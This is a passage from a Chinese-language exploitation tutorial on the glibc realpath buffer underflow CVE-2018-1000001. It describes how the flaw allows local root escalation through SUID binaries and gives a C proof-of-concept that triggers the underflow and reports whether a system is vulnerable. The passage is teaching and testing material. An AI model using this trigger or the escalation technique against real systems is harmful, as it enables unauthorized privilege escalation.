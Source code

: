 # 7.1.5 CVE–2018-1000001 glibc realpath 缓冲区下溢漏洞

- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
- [Exploit](#exploit)
- [参考资料](#参考资料)

[下载文件](../src/exploit/7.1.5_glibc_2018-1000001)

## 漏洞描述

该漏洞涉及到 Linux 内核的 `getcwd` 系统调用和 glibc 的 `realpath()` 函数，可以实现本地提权。漏洞产生的原因是 `getcwd` 系统调用在 Linux-2.6.36 版本发生的一些变化，我们知道 `getcwd` 用于返回当前工作目录的绝对路径，但如果当前目录不属于当前进程的根目录，即从当前根目录不能访问到该目录，如该进程使用 `chroot()` 设置了一个新的文件系统根目录，但没有将当前目录的根目录替换成新目录的时候，`getcwd` 会在返回的路径前加上 `(unreachable)`。通过改变当前目录到另一个挂载的用户空间，普通用户也可以完成这样的操作。然后返回的这个非绝对地址的字符串会在 `realpath()` 函数中发生缓冲区下溢，从而导致任意代码执行，再利用 SUID 程序即可获得目标系统上的 root 权限。

## 漏洞复现

| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Ubuntu 16.04 | 体系结构：64 位 |
| 调试器 | gdb-peda | 版本号：7.11.1 |
| 漏洞软件 | glibc | 版本号：2.23-0ubuntu9 |

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

void main() {
    //char *path;

    struct {
        char canary[16];
        char buffer[80];
    } buf;
    memset(buf.canary, 47, 1);  // put a '/' before the buffer
    memset(buf.buffer, 48, sizeof(buf.buffer));

    //path = getcwd(NULL, 0);
    //puts(path);

    chroot("/tmp");
    //path = getcwd(NULL, 0);
    //puts(path);

    realpath("../../../../BBBB", buf.buffer);
    if (!strcmp(buf.canary, "/BBBB")) {
        puts("Vulnerable");
    } else {
        puts("Not vulnerable");
    }
}
```
